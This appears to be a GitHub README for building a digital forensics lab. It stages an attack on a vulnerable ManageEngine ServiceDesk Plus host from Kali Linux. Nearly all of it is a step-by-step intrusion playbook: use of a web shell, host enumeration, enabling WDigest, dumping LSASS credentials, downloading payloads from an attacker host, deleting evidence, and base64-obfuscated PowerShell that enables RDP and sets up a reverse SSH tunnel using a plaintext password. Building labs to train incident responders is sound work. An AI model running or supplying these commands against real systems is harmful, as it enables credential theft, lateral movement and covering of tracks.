 # Building My First DFIR Lab

## Lab Schema

![](LabSchema.png)


## Environment Setup
- Victim Machine: Windows 10 has:
    -  Vulnerable ManageEngine ServiceDesk Plus build 11303 found on the [ManageEngine Archives](https://archives.manageengine.com/service-desk/11303/)
    -  Sysmon for Windows Logging
    -  Wireshark
- Attacker Machine: Kali Linux
- Server: Windows 10
## Planning
- We will be dividing our lab to multiple parts
    - Part 1: Initial Access & Credentials Dumping
    - 

## Let's Go
### - Part 1:

#### a. Applying The Exploit:
![image](https://github.com/user-attachments/assets/d39fde33-273d-403c-9195-8dac52d64db1)

![image](https://github.com/user-attachments/assets/e7563550-22d8-4a1b-b8eb-b9b3761d9678)

#### b. Visiting wbsh.jsp

![image](https://github.com/user-attachments/assets/bb3eb98c-0af0-4dd2-ab0b-e478fed02f31)

#### c. Enum
  1. `whoami`
  2. `ipconfig /all`
  3. `systeminfo`
  4. `arp -a`
  5. `tasklist`
lsass.exe                      652 Services                   0     16,848 K
  
  6. `reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential`
#### e. `powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'`
#### f. `C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 652 C:\Windows\Temp\logctl.zip full`
#### g. Download C:\Windows\Temp\logctl.zip
#### h. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')`
#### k. `C:\windows\temp\calc.exe -accepteula -ma 652 C:\Windows\Temp\logct2.dmp`
#### l. Delete both of them `Remove-Item -Path "C:\Windows\Temp\logct2.dmp", "C:\Windows\Temp\logctl.zip"`

### - Part 2: Lateral Movement & Stealing Data

> Download Employees.xls FROM THE VICTIM


#### a. Download ekern.exe 
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

#### b. Check if RDP is Enabled?
```
Get-Service -Name TermService
```

#### c. Enable RDP using the Encoded Command
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

#### d. Check Again 
```
Get-Service -Name TermService
```
#### e. Write the FXS.bat
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCB2MWN0aW0gLXB3IENAbnRfRDNmM25kIC1SIDEyNy4wLjAuMTo0OTgwMDoxOTIuMTY4LjIwLjE0NzozMzg5IDE5Mi4xNjguMS4yJw0KJGJhdGNoRmlsZVBhdGggPSAnQzpcVXNlcnNcVmljdGltXERvY3VtZW50c1xGWFMuYmF0Jw0KU2V0LUNvbnRlbnQgLVBhdGggJGJhdGNoRmlsZVBhdGggLVZhbHVlICRiYXRjaENvbnRlbnQ=')) | Invoke-Expression}"
```
![image](https://github.com/user-attachments/assets/f9039d8d-dcc6-46b8-b690-e453a6b6c517)


#### f. Execute FXS.bat == Establish SSH Connection
```
powershell.exe C:\Users\Victim\Documents\FXS.bat
```

![image](https://github.com/user-attachments/assets/f0cf2a93-277f-4e95-84c3-2cfce7b07578)


![image](https://github.com/user-attachments/assets/ac46e920-278f-4505-a6c4-7b5a4b35cf29)


#### g. Let's Start The RDP, when doing the RDP we will be Making 3 attemps (Success) 

![image](https://github.com/user-attachments/assets/088dc184-72d4-4c3a-b5be-a32cf9abc9a4)
